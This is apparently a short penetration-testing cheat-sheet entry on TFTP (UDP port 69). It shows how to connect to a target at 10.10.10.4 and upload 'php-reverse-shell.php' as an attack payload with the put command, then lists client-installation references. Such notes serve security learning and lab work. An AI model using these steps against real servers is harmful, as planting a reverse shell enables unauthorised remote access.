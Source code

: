 # TFTP: UDP Port 69

1. Install [TFTP client](https://www.poftut.com/install-configure-run-linux-tftp-client/)
2. Connect to TFTP server

        tftp 10.10.10.4

3. Upload attack payload using **put** command

        tftp> put php-reverse-shell.php

## References

* https://www.dell.com/support/article/en-in/how10331/how-to-install-tftp-client?lang=en
* https://www.poftut.com/install-configure-run-linux-tftp-client/